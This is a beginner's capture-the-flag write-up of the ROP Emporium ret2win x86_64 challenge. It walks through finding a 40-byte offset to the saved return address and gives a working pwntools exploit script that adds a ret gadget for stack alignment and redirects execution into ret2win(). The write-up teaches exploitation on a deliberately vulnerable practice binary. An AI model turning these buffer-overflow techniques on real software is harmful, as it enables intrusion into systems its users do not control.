









# Day 28: ROP Emporium ret2win x86_64 Writeup

A beginner-friendly ret2win challenge writeup where we overflow a buffer, control RIP, and redirect execution into an existing function to grab the flag.

This is probably my first proper dedicated ret2win challenge, so I am not going to pretend I opened the binary and instantly saw the matrix.

I opened it, stared at it, and hoped the binary would explain itself like the nice picoCTF ones sometimes do.



For extra reading, these helped me understand the general idea:

ROP intro: [Exploit-DB ROP FTW PDF](https://www.exploit-db.com/docs/english/28479-return-oriented-programming-\(rop-ftw\).pdf)

ret2win challenge page: [ROP Emporium ret2win](https://ropemporium.com/challenge/ret2win.html)

Now from what I understand, **ret2win** means:

```text
Overflow the buffer.
Reach the saved return address.
Replace that return address with the address of ret2win().
Make the program return into ret2win().
Get the flag.
```

So we are not building a huge ROP chain yet.

We are not leaking libc.

We are not calling random functions with custom arguments.

We are just trying to make the program return to a function that already exists.

Basically:

```text
Program: I am done, I will return now.
Me: Return here instead.
```

Very rude.

Very educational.

## Checking the File

First, I downloaded the challenge files from ROP Emporium.

The important files were the `ret2win` binary and the `flag.txt` file.

Then I checked what kind of file the binary was:

```bash
file ret2win
```



The output said it was an:

```text
ELF 64-bit LSB executable, x86-64
```

My beginner translation:

```text
ELF      -> Linux executable
64-bit   -> addresses are 8 bytes
LSB      -> little-endian
x86-64   -> the CPU architecture, also called amd64
```

The important part for me was **64-bit**.

In the previous picoCTF buffer overflow challenges, I was mostly thinking about `EIP`, because those were 32-bit.

Here, this is 64-bit, so the return address is controlled through `RIP`.

So the memory words changed.

```text
32-bit -> EIP
64-bit -> RIP
```

Same idea.

Bigger headache.

## Running the Program

Then I ran the binary:

```bash
./ret2win
```



The program said:

```text
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!
```

This program was weirdly honest.

It basically walked onto the stage and said:

```text
I have a 32-byte buffer.
I will accept 56 bytes of input.
Something is going to overflow.
```

Thank you, ROP Emporium.

Very generous.

This told me the challenge was probably not about discovering whether an overflow exists.

The program already announced the overflow like it was proud of it.

The real job was figuring out:

```text
How many bytes until RIP?
Where is ret2win()?
How do I make the program return there?
```

Also, the line about `read()` was useful.

Because this is a 64-bit binary, addresses often contain null bytes like:

```text
\x00
```

Some input functions stop when they see null bytes, but `read()` reads raw bytes.

So using packed addresses like `p64(0x400756)` should be okay.

At least that is what I understood.

If I am wrong, future me can suffer and edit this later.

## Checking Protections

Next, I checked the binary protections:

```bash
pwn checksec ret2win
```



The output showed:

```text
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE
Stripped: No
```

At this stage, I did not understand every detail deeply, but the useful parts were:

```text
No canary
```

There is no stack canary, so the program is not checking whether the stack was smashed before returning.

```text
NX enabled
```

The stack is not executable. So injecting shellcode onto the stack is not the plan.

```text
No PIE
```

The binary is loaded at a fixed address. So function addresses should stay the same every time I run it.

```text
Stripped: No
```

Function names are still available. So I should be able to find `ret2win` by name.

This made the plan feel less impossible.

Not easy.

Just less like staring into a cursed washing machine.

## Finding ret2win()

Since the challenge is called ret2win, I needed to find the `ret2win()` function.

I used:

```bash
nm ret2win | grep ret2win
```



This showed:

```text
0000000000400756 T ret2win
```

So the `ret2win()` function exists at:

```text
0x400756
```

That is the address I eventually want to place into the saved return address.

But I could not just throw it into the input yet.

First, I needed to know exactly how many bytes it takes to reach `RIP`.

## Finding the Offset

The program already told me:

```text
32-byte stack buffer
56 bytes of input
```

So my first guess was that the offset might be:

```text
32 bytes buffer + 8 bytes saved RBP = 40 bytes
```

Because in 64-bit, saved `RBP` is usually 8 bytes.

So the rough layout should be:

```text
[ 32 bytes buffer ]
[ 8 bytes saved RBP ]
[ 8 bytes saved RIP ]
```

That suggests `RIP` starts after 40 bytes.

But guessing in pwn feels like walking into a dark room and trusting the furniture.

So I wanted to confirm it properly.

I generated a cyclic pattern:

```bash
pwn cyclic -n 8 80 > pattern.txt
```

The `-n 8` is because this is a 64-bit binary, and I wanted the pattern to work properly with 8-byte values.

Then I opened the binary in pwndbg:

```bash
pwndbg ./ret2win
```

Inside pwndbg, I ran the program using the pattern as input:

```gdb
run < pattern.txt
```



The program crashed, which was good.

A crash means the input reached something important.

In 32-bit, I usually looked directly at `EIP`.

In 64-bit, I checked the stack around `RSP`, because the value being returned to is usually sitting there when the crash happens.

I used:

```gdb
x/gx $rsp
```

or I just looked at the pwndbg stack view.

There was a cyclic-looking value where the program was trying to return.

For example, if the value looked like:

```text
faaaaaaa
```

I checked where that appeared in the pattern:

```bash
pwn cyclic -n 8 -l faaaaaaa
```

That returned:

```text
40
```

So now the offset was confirmed:

```text
offset = 40
```

That means the payload structure should be:

```text
40 bytes of junk + address of ret2win()
```

For once, the stack layout guess did not betray me.

A rare emotional victory.

## Confirming RIP Control

Before jumping straight to `ret2win()`, I wanted to confirm that I could really control the return address.

So I created a test payload:

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*40 + b"B"*8)' > test.txt
```

Then I ran it in pwndbg:

```gdb
run < test.txt
```



If everything worked, the return address area should become:

```text
0x4242424242424242
```

because `B` is `0x42` in hex.

And that is what happened.

So now I knew:

```text
40 bytes reaches RIP.
The next 8 bytes overwrite RIP.
```

At this point, I was no longer just annoying the program.

I was choosing where it tried to return.

Not confidently.

But technically.

## Building the First Exploit

Now I had the two things I needed:

```text
offset   = 40
ret2win  = 0x400756
```

Since this is 64-bit, I needed to pack the address using `p64()`.

The payload idea became:

```python
payload = b"A" * 40 + p64(0x400756)
```

Instead of hardcoding the address manually, I used pwntools to find it from the binary.

I created an exploit file:

```bash
nano exploit.py
```

Then I wrote:

```python
from pwn import *

elf = ELF("./ret2win")
context.binary = elf

offset = 40
ret2win = elf.symbols["ret2win"]

payload = b"A" * offset
payload += p64(ret2win)

p = process("./ret2win")
p.sendlineafter(b"> ", payload)
p.interactive()
```

Breaking it down:

```python
elf = ELF("./ret2win")
```

This loads the binary in pwntools.

```python
ret2win = elf.symbols["ret2win"]
```

This finds the address of `ret2win()` automatically.

So instead of typing:

```text
0x400756
```

I let pwntools grab it for me.

```python
payload = b"A" * offset
```

This creates 40 bytes of padding to reach the saved return address.

```python
payload += p64(ret2win)
```

This adds the `ret2win()` address in 64-bit little-endian format.

```python
p = process("./ret2win")
```

This runs the binary locally.

```python
p.sendlineafter(b"> ", payload)
```

This waits for the prompt and then sends the payload.

```python
p.interactive()
```

This lets me see the output.

Then I ran it:

```bash
python3 exploit.py
```



The program reached `ret2win()`.

But then something annoying happened.

It printed:

```text
Well done! Here's your flag:
```

and then the flag did not show properly.

So the exploit was close, but not fully clean.

At this point, I was confused because I had the right offset and the right function address.

This is where x86_64 decided to remind me that it has terms and conditions.

## The Stack Alignment Problem

After some checking, this looked like a stack alignment issue.

From what I understood, some 64-bit Linux functions expect the stack to be aligned properly before certain function calls.

If the stack is misaligned, the program may enter `ret2win()` but crash when it reaches something like `system()`.

That matched what I saw.

It reached `ret2win()` enough to print the message, but failed around the part where it should read the flag.

The common fix is to add a single `ret` gadget before calling `ret2win()`.

So instead of:

```text
"A" * 40 + ret2win()
```

we do:

```text
"A" * 40 + ret + ret2win()
```

That extra `ret` moves the stack by 8 bytes and helps fix the alignment.

I am explaining this like I fully understand the entire ABI.

I do not.

My beginner version is:

```text
64-bit stack was slightly angry.
One extra ret calmed it down.
```

## Finding a ret Gadget

To find a plain `ret` gadget, I used pwntools:

```python
rop = ROP(elf)
ret = rop.find_gadget(["ret"])[0]
```

This searches the binary for a simple `ret` instruction and stores its address.

Then I updated the exploit:

```python
from pwn import *

elf = ELF("./ret2win")
context.binary = elf

offset = 40
ret2win = elf.symbols["ret2win"]

rop = ROP(elf)
ret = rop.find_gadget(["ret"])[0]

payload = b"A" * offset
payload += p64(ret)
payload += p64(ret2win)

p = process("./ret2win")
p.sendlineafter(b"> ", payload)
p.interactive()
```

The final payload now looks like this:

```text
40 bytes padding
ret gadget
ret2win address
```

In Python:

```python
payload = b"A" * 40
payload += p64(ret)
payload += p64(ret2win)
```

Then I ran it again:

```bash
python3 exploit.py
```



This time, the binary returned into `ret2win()` properly and printed the flag.

```text
ROPE{a_placeholder_32byte_flag!}
```

## Final Exploit

This is the final version that worked for me:

```python
from pwn import *

elf = ELF("./ret2win")
context.binary = elf

offset = 40
ret2win = elf.symbols["ret2win"]

rop = ROP(elf)
ret = rop.find_gadget(["ret"])[0]

payload = b"A" * offset
payload += p64(ret)
payload += p64(ret2win)

p = process("./ret2win")
p.sendlineafter(b"> ", payload)
p.interactive()
```

## Final Logic

The challenge came down to this:

```text
Find ret2win().
Find the offset to RIP.
Overwrite RIP with ret2win().
If x86_64 stack alignment causes problems, add a ret gadget before ret2win().
Get the flag.
```

Or even shorter:

```text
"A" * 40 + ret + ret2win()
```

This was a clean first ret2win challenge.

Not easy in the sense that I understood everything instantly.

More like easy in the sense that the binary was kind enough to tell me where the hole was, and I only had to fall into it correctly.

No full ROP chain yet.

No arguments yet.

No libc leak yet.

Just one function address and one tiny `ret` gadget.

One small return for the program.

One slightly less confused step for me.

